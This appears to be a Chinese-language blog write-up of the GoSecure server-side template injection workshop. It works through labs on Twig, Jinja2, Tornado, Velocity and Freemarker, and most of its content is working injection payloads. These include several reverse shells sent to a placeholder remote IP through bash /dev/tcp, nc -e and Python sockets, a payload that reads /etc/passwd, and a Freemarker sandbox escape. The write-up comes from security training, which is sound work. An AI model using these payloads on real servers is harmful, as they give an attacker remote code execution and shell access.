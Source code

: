 ```yaml
---
layout: post
title:  Learning SSTI with gosecure
subtitle: Gosecure的SSTI环境学习记录
tags: [ssti,websec]
---
```


## 环境地址
gosecure 的ssti教程地址[template-injection-workshop](https://gosecure.github.io/template-injection-workshop/#0)

## LAB 1: Twig (PHP)
```
email={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("/bin/bash -c \"/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261\"")}}&submit=
```
原理可以参考[Twig SSTI](https://github.com/EdOverflow/bugbountywiki/wiki/SSTI)。  

问题：
直接bash -i /dev/tcp/ip/port 的时候，报错"/dev/tcp no such file or directory"，搜索发现是因为使用的是exec函数，不能直接处理重定向。参考[/dev/tcp](https://stackoverflow.com/questions/36022331/bash-i-dev-tcp-127-0-0-1-1234-01)，使用`bash -c`可以成功。


## LAB 2: Jinja2 (Python)
```
name={{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd','r').read()}}&org=1&phone=33&email=44
```
查找`subprocess.Popen`
```
{% for item in ''.__class__.__mro__[2].__subclasses__()%}
        {%- if item.__name__ == 'Popen' -%}
        {{loop.index0}}{{item}}
{%- endif -%}
    {% endfor %}
```

shell
```
{{''.__class__.__mro__[2].__subclasses__()[245](["/bin/bash","-c","/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261"])}}
```

## LAB 3: Tornado (Python)

```
{%import subprocess,socket,os%}{{s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)}}{{s.connect(("your_remote_ip",port))}}{{os.dup2(s.fileno(),0)}}{{ os.dup2(s.fileno(),1)}}{{ os.dup2(s.fileno(),2)}}{{p=subprocess.call(["/bin/sh","-i"])}}
```

```
{%import subprocess%} {{subprocess.Popen(["nc","your_remote_ip","port","-e","/bin/sh"])}}
```

## LAB 4: Velocity (Java)
猜密码猜了半天没有猜对，最后还是去看了一下代码才找到密码。  
检测：
```
#set($x=7*7)$x
```
```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('cat secret/flag.txt'))$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('nc your_rermote_ip port -e /bin/sh '))$ex.waitFor()
```

## LAB 5: Freemarker (Java)
检测：
```
${7*7}
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat secret/flag.txt") }
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("nc your_remote_ip port -e /bin/sh  ") }
```

## LAB 6: Freemaker (Sandbox escape)
```
<#list .data_model as key, object_test>

<b>Testing "${key}":</b><br/>
<#attempt>

<#assign classloader=object_test.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

Shell ! ( 
${dwf.newInstance(ec,null)("nc your_remote_ip port -e /bin/sh")}
)

<#recover>
failed
</#attempt>

<br/><br/>
</#list>
```

## 总结
经过案例练习，了解了ssti的实际场景和检测方式。实际利用一方面是积累利用方式，另一方面需要了解语言特性才有可能找到gadget。  

感谢网络上各位的分享。

* [Template Injection in Action](https://gosecure.github.io/template-injection-workshop/)
* [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)

